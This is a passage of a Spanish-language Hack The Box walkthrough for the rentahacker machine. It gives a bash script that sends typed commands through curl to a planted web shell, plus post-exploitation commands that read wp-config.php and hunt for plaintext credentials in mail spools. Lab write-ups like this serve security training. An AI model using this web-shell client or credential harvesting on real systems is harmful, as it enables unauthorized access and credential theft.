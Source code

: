 ### Creamos una FakeShell {-}

En el directorio exploits creamos un fichero `fakeShell.sh` que contiene

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
declare -r main_url="http://sec03.rentahacker.htb/shell.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -X GET -G $main_url --data-urlencode "hidden=$command"; echo
done
```

Ya lo podemos lanzar con el comando `rlwrap ./fakeShell.sh`

> [ ! ] Notas: Las explicaciones del script se pueden ver en el video live en el minuto 1:15:38

Tambien se podria utilizar la herramienta creada por s4vitar [ttyoverhttp](https://github.com/s4vitar/ttyoverhttp)

### Enumeramos el equipo {-}

```bash
ls -l /home
whoami
ls -l /home/ib01c03
ls wp-config.php
find \-name wp-config.php
find / \-name wp-config.php
cat /home/ib01c03/www/wp-config.php
```

Vemos un fichero comprimido de wordpress. Buscamos el fichero de configuracion de wordpress que suele tener credenciales en
texto claro. Una vez encontrado lo miramos con `cat`. Encontramos usuario y contraseña para el servicio mysql. Aqui no hay nada interesante.

### Chequeamos ficheros del servicio SMTP {-}

Los ficheros de email suelen ser guardados en el `/var/spool/mail`. Aqui vemos dos ficheros y une tiene credenciales para el **FTP** en texto claro.

### Conexion por ftp {-}
